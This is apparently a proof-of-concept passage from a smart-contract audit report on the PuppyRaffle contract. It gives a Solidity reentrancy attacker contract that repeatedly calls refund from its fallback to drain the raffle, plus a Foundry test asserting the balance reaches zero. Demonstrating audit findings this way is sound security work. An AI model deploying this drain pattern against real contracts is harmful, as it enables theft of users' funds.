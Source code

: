 **Proof of Code**
Add the following code to the `PuppyRaffleTest.t.sol` file.
<deatils>
<summary>Code</summary>

```javascript
contract ReentrancyAttacker {
    PuppyRaffle raffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor (PuppyRaffle _raffle) {
        raffle = _raffle;
        entranceFee = raffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        raffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = raffle.getActivePlayerIndex(address(this));
        raffle.refund(attackerIndex);
    }

    function _drainContract() internal {
        if (address(raffle).balance >= entranceFee) {
            raffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _drainContract();
    }

    receive() external payable {
        _drainContract();
    }
}

function test_reentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        // Deploy attacker contract
        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        vm.deal(address(attackerContract), 1 ether);

        uint256 attackerStartingBalance = address(attackerContract).balance;
        uint256 raffleStartingBalance = address(puppyRaffle).balance;

        // Attack
        attackerContract.attack();
        uint256 raffleEndingBalance = address(puppyRaffle).balance;

        console.log("Attacker starting balance: ", attackerStartingBalance);
        console.log("Raffle starting balance: ", raffleStartingBalance);

        console.log("Attacker ending balance: ", address(attackerContract).balance);
        console.log("Raffle ending balance: ", raffleEndingBalance);
        assertEq(raffleEndingBalance, 0);
```